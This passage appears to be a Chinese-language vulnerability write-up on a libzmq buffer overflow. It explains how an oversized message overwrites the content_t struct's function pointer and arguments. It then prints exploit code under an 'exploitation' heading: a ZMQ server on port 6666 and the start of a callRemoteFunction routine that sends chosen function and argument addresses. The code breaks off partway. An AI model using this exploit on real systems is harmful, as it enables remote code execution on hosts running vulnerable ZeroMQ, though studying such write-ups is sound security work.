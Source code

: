 因此可以用写入的消息覆盖缓冲区后面的内存。而缓冲区后面的内存为一个结构体content_t，其中包含函数指针ffn以及函数参数data和hint。
67     struct content_t
 68     {
 69         void *data;
 70         size_t size;
 71         msg_free_fn *ffn;
 72         void *hint;
 73         zmq::atomic_counter_t refcnt;
 74     };


## 漏洞利用

通过控制传递的消息，进而将上述函数指针和参数覆写为特定函数及其参数，即可实现攻击。

	#include <netinet/in.h>
	#include <arpa/inet.h>
	#include <zmq.hpp>
	#include <string>
	#include <iostream>
	#include <unistd.h>
	#include <thread>
	#include <mutex>
	
	class Thread {
	    public:
	    Thread() : the_thread(&Thread::ThreadMain, this)
	    { }
	    ~Thread(){
	    }
	    private:
	    std::thread the_thread;
	    void ThreadMain() {
	        zmq::context_t context (1);
	        zmq::socket_t socket (context, ZMQ_REP);
	        socket.bind ("tcp://*:6666");
	
	        while (true) {
	            zmq::message_t request;
	
	            // Wait for next request from client
	            try {
	                socket.recv (&request);
	            } catch ( ... ) { }
	        }
	    }
	};
	
	static void callRemoteFunction(const uint64_t arg1Addr, const uint64_t arg2Addr, const uint64_t funcAddr)
	{
	    int s;
	    struct sockaddr_in remote_addr = {};
	    if ((s = socket(AF_INET, SOCK_STREAM, 0)) == -1)
	    {
	        abort();
	    }
	    remote_addr.sin_family = AF_INET;
	    remote_addr.sin_port = htons(6666);
	    inet_pton(AF_INET, "127.0.0.1", &remote_addr.sin_addr);
	